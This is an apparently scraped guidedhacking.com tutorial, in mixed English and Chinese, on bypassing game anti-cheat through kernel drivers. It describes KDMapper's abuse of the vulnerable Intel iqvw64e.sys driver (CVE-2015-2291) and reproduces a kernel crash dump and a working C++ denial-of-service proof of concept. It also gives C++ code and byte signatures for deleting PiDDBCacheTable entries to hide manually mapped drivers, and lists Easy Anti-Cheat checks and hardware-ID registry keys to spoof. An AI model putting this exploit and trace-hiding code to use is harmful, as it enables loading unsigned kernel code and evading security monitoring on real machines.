




# GHB4 - Anti-Debug, AntiCheat & Kernel Mode

https://guidedhacking.com/threads/ghb4-anti-debug-anticheat-kernel-mode.15445/

https://guidedhacking.com/forums/anticheat-bypass-antidebug-tutorials.46/


**Main Resources**

- [300+ Threads in the Anti-Debug & Anticheat Forum Section](https://guidedhacking.com/forums/anticheat-antidebug.46/)
- [Guide - How to Bypass Anticheat - Start Here Beginner's Guide](https://guidedhacking.com/threads/how-to-bypass-anticheat-start-here-beginners-guide.9882/)
- [Tutorial - Junk Code Generator and Polymorphic Code Engine Guide](https://guidedhacking.com/threads/junk-code-generator-and-polymorphic-code-engine-guide.6720/)
- [Guide - How To Bypass VAC Valve Anti Cheat Info](https://guidedhacking.com/threads/how-to-bypass-vac-valve-anti-cheat-info.8125/)
- [Guide - Kernel Mode Drivers Info for Anticheat Bypass](https://guidedhacking.com/threads/kernel-mode-drivers-info-for-anticheat-bypass.11325/)
- [Guide - Anticheat Battleye Bypass Overview](https://guidedhacking.com/threads/battleye-anticheat-bypass-overview.11602/)
- [Guide - How to bypass XignCode Anticheat Guide - XignCode3](https://guidedhacking.com/threads/how-to-bypass-xigncode-anticheat.10800/)
- [Guide - Hackshield Anticheat Bypass Information](https://guidedhacking.com/threads/hackshield-anticheat-bypass-information.10899/)
- [Guide - How to Bypass FairFight Anticheat](https://guidedhacking.com/threads/how-to-bypass-fairfight-anticheat.13339/)
- [Download - GamersClub Anti-Cheat Information (Driver + user mode module)](https://guidedhacking.com/threads/gamersclub-anti-cheat-information-gcsecure-sys-user-mode-module.11371/)
- [Tutorial - MTA: SA's kernel mode anticheat is a joke (information)](https://guidedhacking.com/threads/mta-sas-kernel-mode-anticheat-is-a-joke-information.11078/)
- [Guide - Anticheat XTrap Bypass Source Codes](https://guidedhacking.com/threads/anticheat-xtrap-bypass-source-codes.8156/)
- [Guide - Anticheat nProtect Gameguard Bypass](https://guidedhacking.com/threads/anticheat-nprotect-gameguard-bypass.8008/)

**Additional Resources**

- [Tutorial - Bypassing anti debug example in CS2D](https://guidedhacking.com/threads/bypassing-anti-debug-example-in-cs2d.9992/)
- [Solved - How to Bypass Ragnarok Anticheat - Gepard Shield Bypass](https://guidedhacking.com/threads/how-to-bypass-ragnarok-anticheat-gepard-shield-bypass.10379/)
- [Source Code - CVEAC-2020: Bypassing EasyAntiCheat integrity checks](https://guidedhacking.com/threads/cveac-2020-bypassing-easyanticheat-integrity-checks.14870/)
- [Download - Easy Anti-Cheat - EAC Driver Dumps - Unpacked Modules](https://guidedhacking.com/threads/easy-anti-cheat-eac-driver-dumps-unpacked-modules.12281/)


**Offsite Resources**

- [secret club](https://secret.club/)
- [Reversing XignCode3 Driver - Part 4.2 - Verifying windows version - Niemand - Cyber Security](https://niemand.com.ar/2020/02/14/reversing-xigncode3-driver-part-4-2-verifying-windows-version)


---

## KDMapper - Manually Map Kernel Drivers CVE-2015-229 1803-2004 - TheCruZ - kdmapper 229.305.


[KDMapper](https://guidedhacking.com/resources/kdmapper-manually-map-kernel-drivers-cve-2015-229.305/) 被数百个付费作弊提供商使用，并且有充分的理由。

- Utilizes an embedded vulnerable Intel driver 利用嵌入式易受攻击的英特尔驱动程序  
- Manually Maps your driver 手动映射您的驱动程序
- Provides a simple command line interface 提供简单的命令行界面
- You just pass it 1 argument and you're driver is loaded 您只需传递 1 个参数即可加载驱动程序


**Exploiting Kernel Drivers** 利用内核驱动程序

Kernel drivers 不仅适用于 hardware drivers，而且许多不同类型的软件都在使用它们。drivers 安全性很差，有很多易受攻击的驱动 vulnerable drivers。为了使开发变得简单和廉价，驱动程序向其用户模式应用程序公开函数，但它们经常公开了太多或提供太危险的函数。

任何从 usermode 获取数据并在内核中对其进行处理的驱动程序都可能容易受到攻击。许多都有可以利用的缓冲区溢出（buffer overflows），甚至更糟的是任意内核 arbitrary kernel 写入漏洞。可以从 usermode 利用这些漏洞来执行您的代码，理想情况下提供一种简单的方法来加载您自己的驱动程序。

但是你不能只加载你的驱动程序，你需要 manually map 它，因为它没有数字签名 digitally signed。这些易受攻击的内核驱动程序必须具有有效的安全证书。通过使用有效且经过认证的驱动程序，您可以毫无问题地手动映射未签名的驱动程序。Microsoft 或证书颁发机构可以随时决定拒绝这些证书，使它们不再有效，但这种情况极为罕见。


**KDMapper & CVE-2015-229**

KDMapper 嵌入了易受攻击的 `iqvw64e.sys` 英特尔以太网诊断驱动程序驱动程序。驱动以字节数组 byte array 的形式嵌入[intel_driver_resource.hpp](https://github.com/z175/kdmapper/blob/master/kdmapper/intel_driver_resource.hpp)

驱动于2013年签署。该漏洞于2015年正式发布 [CVE-2015-2291](https://nvd.nist.gov/vuln/detail/CVE-2015-2291)，严重性评分为7.8。令人惊讶的是，它的证书还没有被吊销。


**iqvw64e.sys**

```sys
sha256          :     B2B2A748EA3754C90C83E1930336CF76C5DF9CBB1E3EEC175164BB01A54A4701
date            :     empty
language        :     English-United States
code-page       :     Unicode UTF-16    :      little endian
CompanyName     :     Intel Corporation
FileDescription :     Intel(R) Network Adapter Diagnostic Driver
FileVersion     :     1.03.0.7 built by WinDDK
InternalName    :     iQVW64.SYS
LegalCopyright  :     Copyright (C) 2002-2013 Intel Corporation All Rights Reserved.
OriginalFilename:     iQVW64.SYS
ProductName     :     Intel(R) iQVW64.SYS
ProductVersion  :     1.03.0.7
```

**iqvw64e.sys Main Intel Signature** **英特尔签名**




But wait it's not valid after 2015! Wrong! Windows still loads it.

**Counter Signer Symantec Time Signature**


What happens in December 2020? Nothing! Microsoft will continue to load it as long as it is not revoked!

该漏洞的存在是由于驱动程序使用 `METHOD_NEITHER` 处理 `IOCTL` 代码 `0x80862013、0x8086200B、0x8086200F、0x80862007` 时输入缓冲区验证不足，并且由于不安全的权限允许每个人对仅特权使用的函数进行读写访问。

[KdMapper](https://guidedhacking.com/resources/kdmapper-manually-map-kernel-drivers-cve-2015-229.305/) 利用 `IOCTL` 代码 `0x80862007` 执行任意内核




**KDMapper 很容易被 anticheat 检测到** 驱动程序有据可查，每个人都知道它是什么。但这是让您接触内核黑客攻击的良好开端。

如果您使用 KDMapper，则必须绕过这些内核检测

- `PiDDBCacheTable` PiDDB缓存表 
- `MmUnloadedDrivers` 卸载驱动程序
- System thread detection 系统线程检测
- System pool detection 系统池检测


**KDMapper Resources**
这些是原始的 github 存储库

- [Original - z175 - KDMapper](https://github.com/z175/kdmapper)
- [1803-1903 - alxbrn - kdmapper](https://github.com/alxbrn/kdmapper-1803-1903)
- [1809-1909 - Dark7oveRR - kdmapper](https://github.com/Dark7oveRR/kdmapper)
- [1803-2004 - TheCruZ - kdmapper](https://github.com/TheCruZ/kdmapper-1803-2004)

您可以在此处下载每个版本： [KDMapper Download History](https://guidedhacking.com/resources/kdmapper-manually-map-kernel-drivers-cve-2015-229.305/history)


**Misc**

- [Zysen/node-kdmapper](https://github.com/Zysen/node-kdmapper)


**CVE-2015-2291 Resources**

- [CVE-2015-2291 : (1) IQVW32.sys before 1.3.1.0 and (2) IQVW64.sys before 1.3.1.0 in the Intel Ethernet diagnostics driver](https://www.cvedetails.com/cve/CVE-2015-2291/)
- [Intel Network Adapter Diagnostic Driver - IOCTL Handling](https://www.exploit-db.com/exploits/36392)


**如果您想了解有关 CVE-2015-2291 的更多详细信息，请继续阅读**

- Vendor: Intel 供应商：英特尔
- Product webpage: [Intel | Data Center Solutions, IoT, and PC Innovation](https://www.intel.com/)
- Intel Network Adapter Diagnostic Driver IOCTL Handling Vulnerability英特尔网络适配器诊断驱动程序 IOCTL 处理漏洞
- Affected product:
  - Network Driver for Windows XP
  - Network Driver for Windows 7
  - Network Driver for Windows 8
  - Network Driver for Windows 2008/R2
  - Network Driver for Windows 2012/R2
- Affected version(s):
  - Intel(R) iQVW64.SYS v1.03.0.7
  - Intel(R) iQVW32.SYS v1.03.0.7
- Affected Operating system:
  - Windows 7 SP1 (32/64-bit)
  - Windows XP SP3 (32-bit)
- Date: 14/03/2015
- Credits: Glafkos Charalambous

Disclosure Timeline:

1. 10-06-2014: Vendor Notification
2. 21-06-2014: Vendor Response/Feedback
3. 08-08-2014: Vendor Response/Feedback
4. 26-08-2014: Requesting Status/No Vendor Response
5. 30-09-2014: Requesting Status/No Vendor Response
6. 22-10-2014: Requesting Status/No Vendor Response
7. 10-01-2015: Requesting Status/No Vendor Response
8. 15-01-2015: Requesting Status/No Vendor Response
9. 14-03-2015: CVE Requested
10. 14-03-2015: CVE Assigned
11. 14-03-2015: Public Disclosure

**Description**

在英特尔网络适配器驱动程序中发现了 `iqvw32.sys` 和 `iqvw64e.sys` 驱动程序中的漏洞。

该漏洞的存在是由于驱动程序使用 `METHOD_NEITHER` 处理 `IOCTL` 代码 `0x80862013、0x8086200B、0x8086200F、0x80862007` 时输入**缓冲区验证不足**，并且由于不安全的权限允许每个人都对特权使用函数进行读写访问。攻击者可以利用此问题导致拒绝服务或可能在内核空间中执行任意代码。 

**IOCTL 0x80862013**

```cpp
Microsoft (R) Windows Debugger Version 6.2.9200.20512 AMD64
Copyright (c) Microsoft Corporation. All rights reserved.

Opened \\.\pipe\com_2
Waiting to reconnect...
Connected to Windows 7 7601 x64 target at (Thu Feb 26 18:33:59.291 2015 (UTC + 2:00)), ptr64 TRUE
Kernel Debugger connection established.	//内核调试器连接已建立
Symbol search path is: 				   	//符号搜索路径为	srv*k:\symbols*http://msdl.microsoft.com/download/symbols;SRV*C:\Users\0x414141\AppData\Local\Temp\symbols\google*http://chromium-browser-symsrv.commondatastorage.googleapis.com;SRV*C:\Users\0x414141\AppData\Local\Temp\symbols\microsoft*http://msdl.microsoft.com/download/symbols
Executable search path is:				//可执行搜索路径为
Windows 7 Kernel Version 7601 MP (1 procs) Free x64
Built by: 7601.18700.amd64fre.win7sp1_gdr.141211-1742
Machine Name:
Kernel base = 0xfffff800`03655000 PsLoadedModuleList = 0xfffff800`03898890
System Uptime: not available
KDTARGET: Refreshing KD connection

*** Fatal System Error: 0x0000003b
                       (0x00000000C0000005,0xFFFFF88005A0BFD2,0xFFFFF8800653A9C0,0x0000000000000000)

Break instruction exception - code 80000003 (first chance)//可执行搜索路径中断指令异常

A fatal system error has occurred.		//出现致命的系统错误
Debugger entered on first try; Bugcheck callbacks have not been invoked.//首次尝试时输入了调试程序;尚未调用Bugcheck回调

A fatal system error has occurred.

Connected to Windows 7 7601 x64 target at (Thu Feb 26 20:29:05.978 2015 (UTC + 2:00)), ptr64 TRUE
Loading Kernel Symbols, Loading User Symbols, Loading unloaded module list
....Unable to enumerate user-mode unloaded modules, Win32 error 0n30
Loading Wow64 Symbols
*******************************************************************************
*                        Bugcheck Analysis                                    *
*******************************************************************************

Use !analyze -v to get detailed debugging information.

BugCheck 3B, {c0000005, fffff88005a0bfd2, fffff8800653a9c0, 0}

*** ERROR: Module load completed but symbols could not be loaded for iqvw64e.sys
```

**Followup: MachineOwner** 

```cpp
nt!RtlpBreakWithStatusInstruction:
fffff800`036c3cb0 cc              int     3
3: kd> !analyze -v
*******************************************************************************
*                        Bugcheck Analysis                                    *
*******************************************************************************

SYSTEM_SERVICE_EXCEPTION (3b)
An exception happened while executing a system service routine.
Arguments:
Arg1: 00000000c0000005, Exception code that caused the bugcheck
Arg2: fffff88005a0bfd2, Address of the instruction which caused the bugcheck
Arg3: fffff8800653a9c0, Address of the context record for the exception that caused the bugcheck
Arg4: 0000000000000000, zero.

Debugging Details:
------------------

EXCEPTION_CODE: (NTSTATUS) 0xc0000005 - The instruction at 0x%08lx referenced memory at 0x%08lx. The memory could not be %s.

FAULTING_IP:
iqvw64e+3fd2
fffff880`05a0bfd2 488b11          mov     rdx,qword ptr [rcx]

CONTEXT:  fffff8800653a9c0 -- (.cxr 0xfffff8800653a9c0)
rax=0000f88005a696d1 rbx=0000000000000001 rcx=00000000deadbeef
rdx=0000000080862013 rsi=fffffa804d1084d0 rdi=00000000deadbeef
rip=fffff88005a0bfd2 rsp=fffff8800653b3a0 rbp=fffff8800653bb60
r8=fffffa804b0f4d70  r9=000000000000000e r10=0000000000000000
r11=fffff8800653b898 r12=0000000000000003 r13=0000000000000001
r14=0000000000000001 r15=fffffa804aac7b00
iopl=0         nv up ei pl nz na pe nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00010202
iqvw64e+0x3fd2:
fffff880`05a0bfd2 488b11          mov     rdx,qword ptr [rcx] ds:002b:00000000`deadbeef=????????????????
Resetting default scope

DEFAULT_BUCKET_ID:  WIN7_DRIVER_FAULT

BUGCHECK_STR:  0x3B

PROCESS_NAME:  ConsoleApplica

CURRENT_IRQL:  2

LAST_CONTROL_TRANSFER:  from fffff88005a091ac to fffff88005a0bfd2

STACK_TEXT:
fffff880`0653b3a0 fffff880`05a091ac : fffffa80`4aac7b00 00000000`00000001 fffffa80`4d1084d0 fffffa80`4d01e160 : iqvw64e+0x3fd2
fffff880`0653b8a0 fffff800`039e80f7 : 00000000`80862013 fffff880`0653bb60 fffffa80`4d1084d0 fffffa80`4d01e160 : iqvw64e+0x11ac
fffff880`0653b8d0 fffff800`039e8956 : fffff680`003b5ee8 00000000`00000000 00000000`00000000 00000000`00000000 : nt!IopXxxControlFile+0x607
fffff880`0653ba00 fffff800`036cb113 : 00000000`0021df01 0000007f`ffffffff 00000000`0021df00 00000980`00000000 : nt!NtDeviceIoControlFile+0x56
fffff880`0653ba70 00000000`73b02e09 : 00000000`73b02944 00000000`775a01b4 00000000`73b70023 00000000`00000246 : nt!KiSystemServiceCopyEnd+0x13
00000000`0021e898 00000000`73b02944 : 00000000`775a01b4 00000000`73b70023 00000000`00000246 00000000`001dff7c : wow64cpu!CpupSyscallStub+0x9
00000000`0021e8a0 00000000`73b7d286 : 00000000`00000000 00000000`73b01920 00000000`0021eb30 00000000`773decf1 : wow64cpu!DeviceIoctlFileFault+0x31
00000000`0021e960 00000000`73b7c69e : 00000000`00000000 00000000`00000000 00000000`73b74b10 00000000`7ffe0030 : wow64!RunCpuSimulation+0xa
00000000`0021e9b0 00000000`773f4966 : 00000000`003331f0 00000000`00000000 00000000`774e2670 00000000`774b5978 : wow64!Wow64LdrpInitialize+0x42a
00000000`0021ef00 00000000`773f1937 : 00000000`00000000 00000000`773f4071 00000000`0021f4b0 00000000`00000000 : ntdll!LdrpInitializeProcess+0x17e3
00000000`0021f3f0 00000000`773dc34e : 00000000`0021f4b0 00000000`00000000 00000000`7efdf000 00000000`00000000 : ntdll! ?? ::FNODOBFM::`string'+0x28ff0
00000000`0021f460 00000000`00000000 : 00000000`00000000 00000000`00000000 00000000`00000000 00000000`00000000 : ntdll!LdrInitializeThunk+0xe
```

**FOLLOWUP_IP:**

```cpp
iqvw64e+3fd2
fffff880`05a0bfd2 488b11          mov     rdx,qword ptr [rcx]

SYMBOL_STACK_INDEX:  0

SYMBOL_NAME:  iqvw64e+3fd2

FOLLOWUP_NAME:  MachineOwner

MODULE_NAME: iqvw64e

IMAGE_NAME:  iqvw64e.sys

DEBUG_FLR_IMAGE_TIMESTAMP:  5284eac3

STACK_COMMAND:  .cxr 0xfffff8800653a9c0 ; kb

FAILURE_BUCKET_ID:  X64_0x3B_iqvw64e+3fd2

BUCKET_ID:  X64_0x3B_iqvw64e+3fd2
```


**DOS Exploit Code**

```cpp
#include <windows.h>
#include <stdio.h>
#include <conio.h>

int main(int argc, char **argv)
{
    HANDLE   hDevice;
    DWORD    bret;
    char     szDevice[] = "\\\\.\\Nal";

    printf("--[ Intel Network Adapter Diagnostic Driver DoS ]--\n");

    printf("Opening handle to driver..\n");
    // CreateFile(lpFileName, dwDesiredAccess, dwShareMode, lpSecurityAttributes, dwCreationDispoition, dwFlagsAndAttributes, hTemplateFile)
    if ((hDevice = CreateFileA(szDevice, GENERIC_READ | GENERIC_WRITE,0,0,OPEN_EXISTING,0,NULL)) != INVALID_HANDLE_VALUE)    {
        printf("Device %s succesfully opened!\n", szDevice);
        printf("\tHandle: %p\n", hDevice);
    }
    else
    {
        printf("Error: Error opening device %s\n", szDevice);
    }

    printf("\nPress any key to DoS..");
    _getch();

    bret = 0;
    // DeviceIoControl(hDevice, dwIoControlCode, lpInBuffer, nInBufferSize, lpOutBuffer, nOutBufferSize, lpBytesReturned, lpOverlapped)
    // Affected IOCTL codes: 0x80862013, 0x8086200B, 0x8086200F, 0x80862007
  
    if (!DeviceIoControl(hDevice, 0x80862013, (LPVOID)0xdeadbeef, 0x0, (LPVOID)0xdeadbeef, 0x0, &bret, NULL))
    {
        printf("DeviceIoControl Error - bytes returned %#x\n", bret);
    }

    CloseHandle(hDevice);
    return 0;
}
```

 

```cpp
__int64 __fastcall IOCTLHandler(__int64 a1, struct _IRP *IRequestPacket)
{
  _IO_STACK_LOCATION *IOStackLocation; // rax
  __int64 DeleteHandle; // rcx
  struct _IRP *IoRequestPacketCopy; // rdi
  __int64 v5; // rdx
  unsigned int result; // ebx

  IOStackLocation = IRequestPacket->Tail.Overlay.CurrentStackLocation;
  DeleteHandle = (__int64)IOStackLocation->Parameters.SetFile.DeleteHandle;
  IoRequestPacketCopy = IRequestPacket;
  v5 = IOStackLocation->Parameters.Read.ByteOffset.LowPart;
  if ( DeleteHandle )
  {
    switch ( (_DWORD)v5 )
    {
      case 0x80862007:
        result = IOCTL0x80862007(DeleteHandle); <-----------------
        break;
      case 0x8086200B:
        result = sub_11A60(DeleteHandle);
        break;
      case 0x8086200F:
        result = sub_11330(DeleteHandle);
        break;
      case 0x80862013:
        result = sub_13FA0();
        break;
      default:
        result = 0xC000000D;
        DebugPrintWrapper("Nal Windows DriverDeviceControl: Invalid IOCTL code 0x%0x\n");
        break;
    }
  }
  else
  {
    DebugPrintWrapper("NalDeviceControl: InputBuffer was NULL\n", v5);
    result = 0xC000000D;
  }
  IoRequestPacketCopy->IoStatus.Information = 0i64;
  IoRequestPacketCopy->IoStatus.Status = result;
  IofCompleteRequest(IoRequestPacketCopy, 0);
  return result;
}
```


---

## How to Clear PiDDBCache Table / PiDDBLock 16034.

清除 `PiDDBCache` ，我会解释一下 how to interface with this AVL tree and remove your entries 如何与这个 AVL 树接口并删除你的条目。

首先，`PiDDBCacheTable` 是一个AVL树，如果您在IDA中打开 `ntoskrnl.exe` 并查看引用此符号的内容，您将看到正在使用 `AVL` 函数。  



为了在此 `AVL` 树中添加/删除条目，您需要锁定 `PiDDBLock` (`ExAcquireResourcExclusiveLite` / `ExReleaseResourceLite`)。锁定此资源后，可以使用 AVL 函数查找/删除条目。 这是一个用于查找 AVL 树的 cache entry 缓存条目的示例:

```c++
typedef struct PiDDBCacheEntry
{
    LIST_ENTRY        list;
    UNICODE_STRING    driver_name;
    ULONG            time_stamp;
    NTSTATUS        load_status;
    char            _0x0028[16]; // data from the shim engine, or uninitialized memory for custom drivers
}PIDCacheobj;
    

// example of the making a cache_entry for look up.
PiDDBCacheEntry cache_entry;
cache_entry.time_stamp = timestamp;
RtlInitUnicodeString(&cache_entry.driver_name, std::wstring(file_name.begin(), file_name.end()).data());
```

This is a snippet of code taken from my project: [physmeme/kernel_ctx/kernel_ctx.cpp · master · xerox / physmeme](https://githacks.org/xerox/physmeme/-/blob/master/physmeme/kernel_ctx/kernel_ctx.cpp#L186)

```c++
		//
        // ExAcquireResourceExclusiveLite
        //
        if (!syscall<ExAcquireResourceExclusiveLite>(ex_acquire_resource, piddb_lock, true))
            return false;

        //
        // RtlLookupElementGenericTableAvl
        //
        PIDCacheobj* found_entry_ptr =
            syscall<RtlLookupElementGenericTableAvl>(
                lookup_element_table,
                piddb_table,
                reinterpret_cast<void*>(&cache_entry)
            );

        if (found_entry_ptr)
        {

            //
            // unlink entry.
            //
            PIDCacheobj found_entry = read_kernel<PIDCacheobj>(found_entry_ptr);
            LIST_ENTRY NextEntry = read_kernel<LIST_ENTRY>(found_entry.list.Flink);
            LIST_ENTRY PrevEntry = read_kernel<LIST_ENTRY>(found_entry.list.Blink);

            PrevEntry.Flink = found_entry.list.Flink;
            NextEntry.Blink = found_entry.list.Blink;

            write_kernel<LIST_ENTRY>(found_entry.list.Blink, PrevEntry);
            write_kernel<LIST_ENTRY>(found_entry.list.Flink, NextEntry);

            //
            // delete entry.
            //
            syscall<RtlDeleteElementGenericTableAvl>(delete_table_entry, piddb_table, found_entry_ptr);

            //
            // if you try and find the entry again it should result in 0
            //
            auto result = syscall<RtlLookupElementGenericTableAvl>(
                lookup_element_table,
                piddb_table,
                reinterpret_cast<void*>(&cache_entry)
            );

            syscall<ExReleaseResourceLite>(release_resource, piddb_lock);
        }
```

需要做两件事来删除条目，首先需要 unlink AVL node，其次需要删除AVL节点。

`PiDDBCacheTable` 和 `PiDDBLock` 的特征码 signatures 如下:

```c++
inline constexpr char piddb_lock_sig[] = "\x48\x8D\x0D\x00\x00\x00\x00\xE8\x00\x00\x00\x00\x4C\x8B\x8C\x24";
inline constexpr char piddb_lock_mask[] = "xxx????x????xxxx";

inline constexpr char piddb_table_sig[] = "\x48\x8D\x0D\x00\x00\x00\x00\xE8\x00\x00\x00\x00\x48\x8D\x1D\x00\x00\x00\x00\x48\x85\xC0\x0F";
inline constexpr char piddb_table_mask[] = "xxx????x????xxx????xxxx";
```


您可以通过调用 `LoadLibraryEx` 并加载 `ntoskrnl.exe` ，以及通过调用 `NtQuerySystemInformation` 计算`RVA'S+获得ntoskrnl的基址` 来对内核进行**特征码扫描**。


----

## How to Bypass EAC - Easy Anti Cheat 15956.

https://guidedhacking.com/threads/how-to-bypass-eac-easy-anti-cheat.15956/


[Easy Anti Cheat](https://guidedhacking.com/threads/how-to-bypass-eac-easy-anti-cheat.15956/)可能是最流行的[内核](https://guidedhacking.com/threads/kernel-mode-drivers-info-for-anticheat-bypass.11325/)模式反作弊，它被用在许多游戏中，归 Epic Games 所有。它比 [Battleye](https://guidedhacking.com/threads/battleye-anticheat-bypass-overview.11602/) 更好，因此更难绕过。如果你想绕过它，你还**必须有一个 kernel driver 内核驱动程序**。如果游戏有EAC，您将无法注入，附加调试器，包括 CE 或对游戏过程执行任何其他操作，直到您绕过 [EAC](https://guidedhacking.com/threads/how-to-bypass-eac-easy-anti-cheat.15956/)。


如果您手动映射驱动程序，您必须清除的痕迹，包括 `PiDDBCacheTable` 因为他们基于此检测到您。

**Easy Anti Cheat Capabilities**
因为 EAC 是一个内核反作弊，它可以检测任何东西。您必须**先**加载您的内核驱动程序，然后才能阻止它。

- Block all interaction with game process 阻止与游戏进程的所有交互
- Block creation of process handles 进程句柄的块创建
- Scan for hidden processes & modules 扫描隐藏的进程和模块
- Scan for known suspicious DLL modules 扫描已知的可疑 DLL 模块
- Scan for known suspicious drivers 扫描已知的可疑驱动程序
- Get a list of all open handles 获取所有打开句柄的列表
- Scan for disks & devices 扫描磁盘和设备
- Log all loaded drivers 记录所有加载的驱动程序
- Gather HWID information 收集硬件信息
- Detect debuggers 检测调试器
- Find manually mapped drivers 查找手动映射的驱动程序
- Detect manually mapped driver traces 检测手动映射的驱动程序跟踪
- check for kernel patches 检查内核补丁
- Find handles to physical memory 查找物理内存句柄
- detect modules using VirtualProtect 使用 VirtualProtect 检测模块
- dumps suspect strings from regions not backed by actual modules 从不受实际模块支持的区域 dump 可疑字符串
- scans for possible syscall stubs in regions that are not backed by modules (edited) 在不受模块支持的区域中扫描可能的系统调用存根
- does window enumeration to detect suspect overlays 进行窗口枚举以检测可疑覆盖
- enumerates suspect shared memory sections 枚举可疑的共享内存部分
- Detect hooks 检测钩子
- Checks all services 检查所有服务
- Scan all threads & system threads 扫描所有线程和系统线程
- Stack walking 栈走 
- Detection of manually mapped modules 检测手动映射的模块
- Turla Driver Loader detection `Turla Driver Loader` 检测
- [Hypervisor & VM detection](https://secret.club/2020/04/13/how-anti-cheats-detect-system-emulation.html) 管理程序和虚拟机检测
- `DbgUiRemoteBreakin patch`
- `PsGetProcessDebugPort`
- Set HideFromDebugger flag manually 手动设置 `HideFromDebugger` 标志
- Reads DR6 and DR7 读取 DR6 和 DR7
- Instrumentation callbacks 检测回调


**Manually Mapped Driver Detection**手动映射驱动程序检测

- [PiDDBCacheTable ](https://guidedhacking.com/threads/how-to-clear-piddbcache-table-piddblock.16034/)& MmUnloadedDrivers
- system pool detection
- system thread detection


**EAC HWID Generation**
EAC 确切地知道您是谁，可能需要进行大量欺骗

- KUSER_SHARED_DATA.ProcessorFeatures ( 0xFFFFF78000000274 )
- Registry 注册表
- WMI
- Ntoskernl.exe version
- Mac address
- Disk serials 磁盘序列


**Registry Keys for HWID **注册表项

- `HKEY_LOCAL_MACHINE\Hardware\Description\System\CentralProcessor\0`
  - `SystemProductName`
- `HKEY_LOCAL_MACHINE\HARDWARE\DEVICEMAP\Scsi\Scsi Port 0\Scsi Bus 0\Target Id 0\Logical Unit Id 0`
  - `Identifier`
  - `SerialNumber`
  - `SystemManufacturer`
- `Computer\HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SystemInformation`
  - `ComputerHardwareId`
- `Computer\HKEY_LOCAL_MACHINE\HARDWARE\DESCRIPTION\System\BIOS`
  - `BIOSVendor`
  - `BIOSReleaseDate`
  - `ProductId`
  - `ProcessorNameString`
- `Computer\HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Class\{4d36e968-e325-11ce-bfc1-08002be10318}\0000`
- `Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion`
  - `InstallDate`
  - `DriverDesc`
- `Computer\HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\WindowsUpdate`
  - `SusClientId`
- `Registry\Machine\System\CurrentControlSet\Control\Class\{4d36e972-e325-11ce-bfc1-08002be10318}\0001`
- `Registry\Machine\Software\Microsoft\Windows NT\CurrentVersion\Windows Activation Technologies\AdminObject\Store`

**Dumped Modules**
Easy Antiheat 使用 kernel drivers and usermode modules 内核驱动程序和用户模式模块。在绕过 EAC 之前，您无法附加调试器，因此反转 EAC 本身成为一个问题。但是，如果您可以进入内核，则可以 dump 模块，以便稍后静态分析它们。这些模块经常更新，但我们有一些可用的 dump。这是您学习如何绕过 EAC 的第一站，您可以静态分析这些二进制文件并了解 Easy Anti Cheat 的工作原理。

- [Main EAC Dump Thread](https://guidedhacking.com/threads/easy-anti-cheat-eac-driver-dumps-unpacked-modules.12281/)
- [UPDATED RUST EasyAntiCheat Dumps](https://guidedhacking.com/threads/easy-anti-cheat-eac-unpacked-modules-dumps.12281/post-73793)
- [UPDATED RUST EasyAntiCheat Dumps #2](https://guidedhacking.com/threads/easy-anti-cheat-eac-unpacked-modules-dumps.12281/post-78328)
- [Unpacked Modules & Drivers for Rust](https://guidedhacking.com/threads/easy-anti-cheat-eac-unpacked-modules-dumps.12281/post-71040)
